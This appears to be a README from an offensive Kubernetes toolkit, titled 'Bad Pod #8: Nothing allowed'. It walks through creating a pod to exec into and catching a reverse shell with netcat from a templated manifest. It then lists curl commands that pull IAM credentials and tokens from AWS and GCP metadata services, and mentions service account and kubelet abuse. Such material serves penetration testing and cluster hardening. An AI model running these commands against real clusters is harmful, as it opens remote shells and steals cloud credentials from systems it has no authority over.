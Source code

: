 # Bad Pod #8: Nothing allowed

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities. **Do not despair**, especially if the target cluster is running in a cloud environment. 

## Table of Contents
* [Pod Creation & Access](#Pod-Creation-&-Access)
   * [Exec Pods](#exec-pods-create-one-or-more-of-these-resource-types-and-exec-into-the-pod)
   * [Reverse Shell Pods](#reverse-shell-pods-Create-one-or-more-of-these-resources-and-catch-reverse-shell)
   * [Deleting Resources](#Deleting-Resources)
* [Post exploitation](#Post-exploitation)


# Pod Creation
## Create a pod you can exec into
Create pod
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml 
```
Exec into pod 
```bash
kubectl exec -it nothing-allowed-exec-pod -- bash
```

## Reverse shell pod

Set up listener
```bash
nc -nvlp 3116
```

Create pod from local manifest without modifying it by using env variables and envsubst
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/pod/nothing-allowed/pod/nothing-allowed-revshell-pod.yaml | kubectl apply -f -
```

Catch the shell
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both.

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.

* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 

[This write-up of a CTF challenge](https://keramas.github.io/2020/08/10/Recon-Village-CTF-at-DC28.html) created by Madhu Akula demonstrates a pretty common post exploitation pattern



# Reference(s): 

* https://securekubernetes.com/
* https://madhuakula.com/kubernetes-goat/
* https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/
* https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/
* https://github.com/tabbysable/POC-2020-8558
